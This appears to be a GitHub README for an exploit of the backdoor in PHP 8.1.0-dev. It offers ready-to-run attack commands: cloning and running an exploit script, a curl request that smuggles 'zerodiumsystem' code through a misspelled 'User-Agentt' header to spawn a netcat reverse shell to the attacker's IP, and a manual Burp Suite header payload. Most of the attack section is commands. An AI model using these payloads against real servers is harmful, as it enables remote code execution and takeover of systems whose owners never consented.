 # PHP-8.1.0-dev - Remote Code Execution 

## Description

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following bash exploit uses the backdoor to provide a shell on the host. A simple proof of concept file.

## Usage

 Run the script with the host IP, your own IP + port (for the reverse shell) and enjoy your shell:

`$ git clone https://github.com/PenTestical/PHP-8.1.0-dev_RCE && cd PHP-8.1.0-dev_RCE/`

`$ chmod +x exploit.sh`

`$ bash exploit.sh`

## Quick RCE

The quickest way to get a reverse shell, is to use a cURL request. replace `YOUR_IP` with your attacker IP address and start a netcat listener at port `4444`.

`nc -nvlp 4444`

`curl http://10.10.10.242/ -H "User-Agentt: zerodiumsystem('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4444 >/tmp/f');"`

## Manual exploitation

You can also exploit this manually by adding the

`User-Agentt: zerodiumsystem('ls');`

header in Burp Suite and sending a new HTTP request to the host.
